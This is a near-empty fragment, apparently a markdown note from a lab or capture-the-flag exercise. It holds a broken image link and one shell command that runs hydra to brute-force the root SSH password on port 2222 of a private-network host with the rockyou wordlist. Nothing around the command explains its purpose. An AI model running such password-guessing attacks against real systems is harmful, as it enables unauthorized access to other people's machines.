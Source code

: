 hydra -l root -P /usr/share/wordlists/rockyou.txt -s 2222 192.168.229.134 ssh  

![Uploading image.png…]()


